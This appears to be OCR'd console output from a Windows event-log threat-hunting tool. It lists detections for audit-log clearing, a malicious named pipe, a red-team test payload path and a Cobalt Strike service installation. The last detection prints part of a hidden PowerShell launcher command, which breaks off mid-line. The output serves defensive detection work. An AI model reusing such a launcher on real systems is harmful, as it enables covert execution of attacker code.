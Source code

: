 	│                     │                    │          │           │             │                                │ red-team-master\atomics\T1086\   │                    │
	│                     │                    │          │           │             │                                │ payloads\test.xsl                │                    │
	└─────────────────────┴────────────────────┴──────────┴───────────┴─────────────┴────────────────────────────────┴──────────────────────────────────┴────────────────────┘

	[+] Group: Log Tampering
	┌─────────────────────┬───────────────────────────────┬──────────┬───────────┬────────────────────────────────┬───────────────┐
	│      timestamp      │          detections           │ Event ID │ Record ID │            Computer            │     User      │
	├─────────────────────┼───────────────────────────────┼──────────┼───────────┼────────────────────────────────┼───────────────┤
	│ 2019-01-20 07:00:50 │ ‣ Security Audit Logs Cleared │ 1102     │ 32853     │ WIN-77LTAPHIQ1R.example.corp   │ Administrator │
	└─────────────────────┴───────────────────────────────┴──────────┴───────────┴────────────────────────────────┴───────────────┘

	[+] Group: Sigma
	┌─────────────────────┬────────────────────────────────┬───────┬────────────────────────────────┬──────────┬───────────┬──────────────────────────┬──────────────────────────────────┐
	│      timestamp      │           detections           │ count │     Event.System.Provider      │ Event ID │ Record ID │         Computer         │            Event Data            │
	├─────────────────────┼────────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼──────────────────────────┼──────────────────────────────────┤
	│ 2019-04-29 20:59:14 │ ‣ Malicious Named Pipe         │ 1     │ Microsoft-Windows-Sysmon       │ 18       │ 8046      │ IEWIN7                   │ ---                              │
	│                     │                                │       │                                │          │           │                          │ Image: System                    │
	│                     │                                │       │                                │          │           │                          │ PipeName: "\\46a676ab7f179e511   │
	│                     │                                │       │                                │          │           │                          │ e30dd2dc41bd388"                 │
	│                     │                                │       │                                │          │           │                          │ ProcessGuid: 365ABB72-D9C4-5CC   │
	│                     │                                │       │                                │          │           │                          │ 7-0000-0010EA030000              │
	│                     │                                │       │                                │          │           │                          │ ProcessId: 4                     │
	│                     │                                │       │                                │          │           │                          │ RuleName: ""                     │
	│                     │                                │       │                                │          │           │                          │ UtcTime: "2019-04-29 20:59:14.   │
	│                     │                                │       │                                │          │           │                          │ 430"                             │
	├─────────────────────┼────────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼──────────────────────────┼──────────────────────────────────┤
	│ 2019-04-30 20:26:51 │ ‣ CobaltStrike Service         │ 1     │ Microsoft-Windows-Sysmon       │ 13       │ 9806      │ IEWIN7                   │ ---                              │
	│                     │ Installations in Registry      │       │                                │          │           │                          │ Details: "%%COMSPEC%% /b /c st   │
	│                     │                                │       │                                │          │           │                          │ art /b /min powershell.exe -no   │
	│                     │                                │       │                                │          │           │                          │ p -w hidden -noni -c \"if([Int   │
	│                     │                                │       │                                │          │           │                          │ Ptr]::Size -eq 4){$b='powershe   │
	│                     │                                │       │                                │          │           │                          │ ll.exe'}else{$b=$env:windir+'\   │
	│                     │                                │       │                                │          │           │                          │ \syswow64\\WindowsPowerShell\\   │
	│                     │                                │       │                                │          │           │                          │ v1.0\\powershell.exe'};$s=New-   │